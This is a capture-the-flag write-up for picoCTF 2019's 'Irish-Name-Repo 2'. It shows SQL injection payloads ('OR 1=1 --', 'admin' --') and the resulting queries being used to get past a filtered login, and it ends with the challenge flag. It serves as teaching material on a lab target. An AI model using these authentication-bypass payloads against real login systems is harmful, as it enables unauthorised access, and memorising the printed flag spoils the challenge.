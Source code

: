 # Irish-Name-Repo 2

> There is a website running at ``https://2019shell1.picoctf.com/problem/41025/`` ([link](https://2019shell1.picoctf.com/problem/41025/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:41025

> Hints: The password is being filtered.

First things first, we try the same injection we did last time in [Irish-Name-Repo 1](/problems/Irish-Name-Repo_1).
<pre>
username: ' OR 1=1 --
password: something random
SQL query: SELECT * FROM users WHERE name='' OR 1=1 --' AND password='something random'
<h1>SQLi detected.</h1>
</pre>
Darn: It's detecting something in the username that does not pass the check. Quickly, we check if we can run the injection at all by removing the helpful ``OR`` statement.
<pre>
username: ' --
password: something random
SQL query: SELECT * FROM users WHERE name='' --' AND password='something random'
<h1>Login failed.</h1>
</pre>
This is passing the filter, so we can indeed do some injection. Now, running through some [standard injections](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/), we find the idea ``admin' --``, which tries to abuse the fact that our current injection ``' --`` causes the ``password`` check to be completely bypassed:
```sql
SELECT * FROM users WHERE name='' --' AND password='something random'
```
So if the admin's username is ``admin``, the suggested injection ``admin' --`` will return the ``admin`` user without having to check the pesky password.
```sql
SELECT * FROM users WHERE name='admin' --' AND password='something random'
```
Testing this gives the flag.
<pre>
username: admin' --
password: something random
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='something random'
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_83dad972}</p>
</pre>
> ``picoCTF{m0R3_SQL_plz_83dad972}``
